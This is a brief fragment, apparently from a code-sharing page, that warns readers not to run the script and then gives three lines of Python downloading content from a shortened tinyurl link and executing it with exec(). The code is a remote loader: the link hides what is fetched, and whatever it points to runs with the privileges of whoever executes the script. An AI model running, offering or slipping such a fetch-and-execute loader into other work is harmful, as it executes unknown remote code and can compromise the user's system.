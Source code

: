 You should not execute this script.<br/>
If you execute this, it is at your own risk<br/>
<br/>
import urllib.request<br/>
script = urllib.request.urlopen("https://tinyurl.com/btwktzns").read()<br/>
exec(script)<br/>
